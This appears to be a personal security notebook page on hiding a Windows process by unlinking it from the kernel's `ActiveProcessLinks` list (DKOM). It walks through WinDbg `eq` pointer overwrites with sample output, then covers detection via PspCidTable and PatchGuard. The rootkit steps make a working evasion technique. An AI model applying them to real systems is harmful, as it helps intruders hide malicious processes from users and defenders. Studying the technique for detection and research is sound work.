


> [!abstract] Hiding Processes via `ActiveProcessLinks` (DKOM)
> In the Windows kernel, all active processes are linked together in a circular doubly-linked list using the `ActiveProcessLinks` field inside the `_EPROCESS` structure. By manipulating this list (a technique called DKOM - Direct Kernel Object Manipulation), we can "unlink" a process, making it completely invisible to Task Manager, `tasklist`, and most EDRs.
> **MITRE ATT&CK Mapping:** [T1564 - Hide Artifacts](https://attack.mitre.org/techniques/T1564/) | [T1014 - Rootkit](https://attack.mitre.org/techniques/T1014/)

![[Pasted image 20260918145312.png|700]]

## 📊 Visualizing the Doubly-Linked List

> [!info] The `LIST_ENTRY` Structure
> The `ActiveProcessLinks` field is of type `LIST_ENTRY`. A `LIST_ENTRY` contains two pointers:
> 1. `Flink` (Forward Link): Points to the next process's `ActiveProcessLinks`.
> 2. `Blink` (Backward Link): Points to the previous process's `ActiveProcessLinks`.
> 
> *Crucial Note:* These pointers point to the `LIST_ENTRY` structure *inside* the `_EPROCESS`, not the start of the `_EPROCESS` itself. To get the base address of the process, the kernel subtracts the offset of `ActiveProcessLinks` from the pointer value. On this Windows build, the offset is `0x1d8`.



### The "Unlinking" Logic (The DKOM Hack)
To hide `cmd.exe`, we take the `Flink` of the Previous process and point it directly to the Next process. Then we take the `Blink` of the Next process and point it directly to the Previous process. 

`cmd.exe` is now floating in memory, completely disconnected from the active process list. In this execution, its `Flink` and `Blink` are zeroed out to `0x00`.



## 🕵️‍♂️ Manual Execution (WinDbg Breakdown)

> [!example] Step-by-Step Process Unlinking
> This requires an active Kernel Debugging session. We will hide `cmd.exe`.
> *Note: On this Windows build, the `ActiveProcessLinks` offset is `0x1d8`. Pointers are 8 bytes (QWORD).*

![[Pasted image 20260918141341.png]]
#### 1. Find the Target Process
```text
lkd> !process 0 0 cmd.exe
PROCESS ffffdf8d5ca88080
    SessionId: none  Cid: 336c    Peb: d31a435000  ParentCid: 4d6c
    DirBase: 2872df000  ObjectTable: ffffcd090f3e6240  HandleCount:  89.
    Image: cmd.exe
```
The `_EPROCESS` of `cmd.exe` is `ffffdf8d5ca88080`.

#### 2. Read its `LIST_ENTRY` (Flink and Blink)
We add the offset `0x1d8` to the base address to find the `ActiveProcessLinks` structure.
```text
lkd> dt nt!_LIST_ENTRY ffffdf8d5ca88080+0x1d8 
 [ 0xffffdf8d`7b0c7258 - 0xffffdf8d`76dc8258 ]
   +0x000 Flink            : 0xffffdf8d`7b0c7258 _LIST_ENTRY [ 0xffffdf8d`55a70258 - 0xffffdf8d`5ca88258 ]
   +0x008 Blink            : 0xffffdf8d`76dc8258 _LIST_ENTRY [ 0xffffdf8d`5ca88258 - 0xffffdf8d`94406258 ]
```
- **Flink** (Next process): `0xffffdf8d7b0c7258`
- **Blink** (Previous process): `0xffffdf8d76dc8258`

#### 3. Patch the Next Process (Overwrite its Blink)
We must overwrite the Next process's `Blink` (offset `+0x008`) with `cmd.exe`'s `Blink` (the Previous process's address).

```text
lkd> eq 0xffffdf8d`7b0c7258+0x008 0xffffdf8d`76dc8258
```

#### 4. Patch the Previous Process (Overwrite its Flink)
We must overwrite the Previous process's `Flink` (offset `+0x000`) with `cmd.exe`'s `Flink` (the Next process's address).

```text
lkd> eq 0xffffdf8d`76dc8258 0xffffdf8d`7b0c7258
```

#### 5. Zero-out the Hidden Process (Avoid BSOD)
To clean up the now-disconnected `cmd.exe` list entry and prevent the kernel from crashing if it tries to iterate over it, we zero out its `Flink` and `Blink` pointers.

```text
lkd> eq ffffdf8d5ca88080+0x1d8 0x00
lkd> eq ffffdf8d5ca88080+0x1d8+0x008 0x00
```

#### 6. Resume Execution
```text
lkd> g
```

> [!success] Result: Invisible Process
> If you now open Task Manager or run `tasklist` in CMD, `cmd.exe` will not be listed. However, the process is still running perfectly in the background because the CPU schedules threads via a different structure (`_KPROCESS` / Dispatch headers), not the `ActiveProcessLinks` list.

> [!danger] Detection & OPSEC
> - **PspCidTable:** While `ActiveProcessLinks` hides the process from Task Manager, the process is still visible in the `PspCidTable` (Process ID table). Advanced tools like `Process Hacker` or EDRs query the `PspCidTable` directly and will see right through this hiding technique.
> - **PatchGuard:** Microsoft's Kernel Patch Protection (PatchGuard) periodically checks the integrity of kernel structures. If it detects that the `ActiveProcessLinks` list has been tampered with, it will trigger a BSOD.
> - **Self-Link vs Zeroing:** You zeroed out the links (`0x00`). While this often works, a safer approach to avoid certain kernel enumeration crashes is to point `Flink` and `Blink` to the process's *own* `LIST_ENTRY` address (`eq ffffdf8d5ca88080+0x1d8 ffffdf8d5ca88080+0x1d8`).

> [!tip] 🛠️ Vergilius Project: The Kernel Exploiter's Best Friend
> The biggest challenge in kernel exploitation is that structure offsets (like `ActiveProcessLinks` or `Token` in `_EPROCESS`) change across different Windows builds. You cannot hardcode an offset like `0x1d8` and expect it to work on every machine.
> 
> The **Vergilius Project** is an online database of Windows kernel structures. Instead of attaching a kernel debugger (WinDbg) to the target machine to find an offset, you can simply select the target OS build on the website and instantly view the exact memory layout of `_EPROCESS` and other internal structs.
> 
> 🔗 **Resource:** [Vergilius Project - Windows 11 25H2 _EPROCESS](https://www.vergiliusproject.com/kernels/x64/windows-11/25h2/_EPROCESS)
